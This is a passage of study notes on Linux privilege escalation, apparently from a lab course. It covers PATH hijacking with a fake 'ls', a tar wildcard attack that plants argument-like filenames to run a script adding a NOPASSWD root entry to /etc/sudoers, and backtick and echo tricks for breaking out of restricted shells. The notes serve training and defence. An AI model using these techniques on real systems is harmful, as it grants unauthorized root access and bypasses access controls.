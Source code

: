     echo 'echo "PATH ABUSE!!"' > ls

    chmod +x ls

    ls
    # prints the statement instead
    ```

* Wildcard abuse:

    * wildcards can be used as replacement for other chars; shell interprets it before other actions. For e.g. - ```*```, ```?```, ```[ ]```, ```~```, ```-```

    * tar wildcard abuse:

        ```sh
        # suppose we have a cronjob or a script using a tar command with wildcard
        # we can use the --checkpoint option to exploit it
        
        echo 'echo "htb-student ALL=(root) NOPASSWD: ALL" >> /etc/sudoers' > root.sh
        echo "" > "--checkpoint-action=exec=sh root.sh"
        echo "" > --checkpoint=1
        # when the job runs, the root.sh script is executed
        ```

* [Escaping restricted shells](https://0xffsec.com/handbook/shells/restricted-shells/):

    * restricted shells limit the user in executing commands - only specific commands or specific directories are allowed for safety; examples include ```rbash```, ```rksh```, and ```rzsh```

    * [command injection](https://systemweakness.com/how-to-breakout-of-rbash-restricted-bash-4e07f0fd95e) - suppose shell only allows executing ```ls``` commands with specific args; we can try injecting commands enclosed in backticks -

        ```sh
        ls -l `pwd`

        # similarly, if only 'echo' is allowed, we can get directory contents

        echo /*
        # prints directory listing for '/' path

        # to print file using echo
        echo "$(<a.txt )"
        ```
    